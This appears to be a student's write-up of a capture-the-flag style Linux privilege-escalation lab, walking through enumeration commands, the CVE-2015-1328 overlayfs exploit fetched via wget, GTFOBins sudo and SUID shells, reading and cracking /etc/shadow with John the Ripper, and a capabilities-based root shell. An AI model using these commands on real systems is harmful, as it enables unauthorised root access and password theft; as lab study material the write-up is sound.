 # Linux Priviledge Escalation Room

## TASK 3
This task highlighted some commonly used commands for Linux to help guide you into who you are, what connectivity from this device is, and what to look for as possible vulnerability.
- ```uname -a ```
- ``` hostname  ```
- ```cat /proc/version```
- ```cat /etc/issue```
- ```ps -A ``` or ```ps axjf```
- ```sudo -l```
- ```cat /etc/passwd```
- ```ifconfig```
- ```netstat -at```
- ```find /home -name flag1.txt```  or ``` find / -type f -perm 0777 ```
    - ``` find / -perm -u=s -type f 2>/dev/null ``` allows you to find SUID bit files, which allows us to run the file with a higher privilege level than the current user.


## TASK 5
In the room for the Linux Exploitation Task 5, you'll need to use the HackBox to create a new file called `ofs.c` with the contents of the `CVE-2015-1328.c` in it. This is based on the content of the exploit here https://www.exploit-db.com/exploits/37292. Spin up a python3 server by executing: 
    ``` python3 -m http.server 9000```
Then from the target computer, you'll use wget to download the ofs.c file and compile it using the command:
    ```gcc ofs.c -o ofs```
This should result in you opening a shell that results in you being root


## TASK 6
 
For this task the new box needs to be spun up so that there's a box that has the name `LinPrivEscSUDO`. TO start answering questions you'll need to first execute the command to find out which services the current user has the ability to run without password the sudo command. In this case I ran
    ```sudo -l```
From here it lisited the number of services that is the answer to the first question on this task. I was able to go to the site that's referenced in the dialague for this task [GTFOBins](https://gtfobins.github.io/) and search for each of the services listed to see which one would allow us to escalate into a shell that is root privileges. This case I used the command
     ``` sudo find . -exec /bin/sh \;``` 
which started a root session and from there able to cat the flag2.txt file for the answer to the second question. For the third question, using [GTFOBins](https://gtfobins.github.io/) searched for the sudo use of nmap and used the command I found there for the correct answer. Last question took a little bit of searching for how to accomplish the goal, but what I learned was that ```cat /etc/passwd``` allowed me to see that despite frank not having a home directory, frank did have a password hash stored in /etc/shadow. Pretty cool details for how to interpret that file found on this [site](https://takahideiwai.github.io/Cryptography/01-passwordcracking/index.html)


## TASK 7
This task is similar to the one above, but we need to deal with the set user id (SUID) and set group id (SGID) concepts. Using the command:
    ```find / -type f -perm -04000 -ls 2>/dev/null```
we are able to find out which services you can actually run as the owner of those services. The use of [GTFOBins] is still relevant here to list which services have SUID exploits. This section also includes the steps for using the /etc/shadow and /etc/passwd files to list valuable information. Steps are as follows:

- Create outputs of both files by running ```nano passwd.txt ``` and  ```nano shadow.txt``` and copy the contents of the ```base64 "$LFILE" | base64 --decode``` command for each while replacing the LFILE variable with which file you need to read.
- Use the unshadow tool to export to a file with ```unshadow passwd.txt shadow.txt > passwords.txt```
- Execute John the Ripper with a wordlist that will print out password in plain text ```john passwords.txt --wordlists /usr/share/wordlists/rockyou.txt``` if executing from the AttackBox. Then 

The Alternative path was to add the new user hash to the /etc/passwd file with root permissions. This could be done by using the ```openssl passwd -1 -salt ``` command and adding ```:/root:/bin/bash``` permission. This second route only works if you have the ability to sudo into root and adding edit permissions on the /etc/passwd file. 

## TASK 8
This task looks at the capabilities of the binaries on the box. using the command ```getcap -r / 2>/dev/null``` was able to answer the first three questions of this section. The additional binary that was found on the box for me was a service called view. In this case to take advantange of the capabilities I used the command
    ```/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```
This started a shell that would be started as root and I'd be able to print the contents of the flag file.